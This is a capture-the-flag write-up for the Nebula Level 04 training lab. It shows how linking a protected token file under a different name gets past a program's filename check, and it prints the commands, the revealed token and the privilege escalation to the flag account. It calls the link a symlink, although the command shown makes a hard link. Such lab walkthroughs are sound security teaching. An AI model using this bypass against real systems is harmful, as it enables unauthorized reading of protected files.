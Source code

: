 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 04"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### Exploit Education Level 4
## Challenge
This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it 
To do this level, log in as the `level04` account with the password `level04`. Files for this level can be found in /home/flag04.
## Vulnerabilty
The program looks for the string `token` in the file name. 
```
if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
```
We can beat this check by creating a [symlink](https://www.cyberciti.biz/faq/creating-soft-link-or-symbolic-link/) to the file token using a file name that does not have `token` in it
```
level04@nebula:~$ ln /home/flag04/token /home/level04/flag
level04@nebula:~$ ls
flag  flag04  token
```
Symlink created. lets run the program now.
```
level04@nebula:~$ cd /home/flag04
level04@nebula:/home/flag04$ ./flag04 /home/level04/flag
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su - flag04
Password:
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
flag04@nebula:~$
```
### Solved!